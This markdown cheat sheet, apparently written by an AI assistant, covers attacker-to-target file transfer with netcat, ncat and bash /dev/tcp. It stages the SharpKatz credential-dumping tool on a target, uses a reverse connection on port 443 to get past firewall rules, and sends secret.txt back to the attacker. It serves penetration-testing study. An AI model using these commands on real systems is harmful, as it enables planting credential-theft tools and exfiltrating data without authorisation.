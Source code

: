 
## 1. Send File from Attacker to Target

### On Target (Listener)

```bash
nc -l -p 8000 > SharpKatz.exe
```

### On Attacker (Sender)

```bash
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

**Note:**  
`-q 0` closes the connection after the transfer completes.

---

## 2. Using Ncat for More Stability

### On Target (Receiver)

```bash
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

### On Attacker (Sender)

```bash
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

---

## 3. Reverse Connection (Bypass Inbound Firewall Rules)

Outbound connections are usually allowed, making this method more firewall-friendly.

### On Attacker (Listener on Port 443)

```bash
# Netcat
sudo nc -l -p 443 -q 0 < SharpKatz.exe

# Ncat
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### On Target (Retrieve File)

```bash
# Netcat
nc 192.168.49.128 443 > SharpKatz.exe

# Ncat
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

---

## 4. Using Bash with /dev/tcp

If neither Netcat nor Ncat is installed, Bash can handle the transfer using the `/dev/tcp` trick.

### On Attacker

```bash
sudo nc -l -p 443 -q 0 < SharpKatz.exe
# OR
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### On Target

```bash
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

**Note:**  
`cat` reads from the network as if it’s a file, making this a clean and stealthy method.

---

## 5. Reverse Transfers (Target to Attacker)

To pull files from the target, just reverse the roles:

- **Attacker:** Start listener with Netcat or Ncat.
    
- **Target:** Connect back and send the file.
    

Example:

```bash
# On Target
nc 192.168.49.128 443 < secret.txt
```

---

Would you like me to integrate this with your Nginx HTTP/S file transfer notes into a single organized cheat sheet?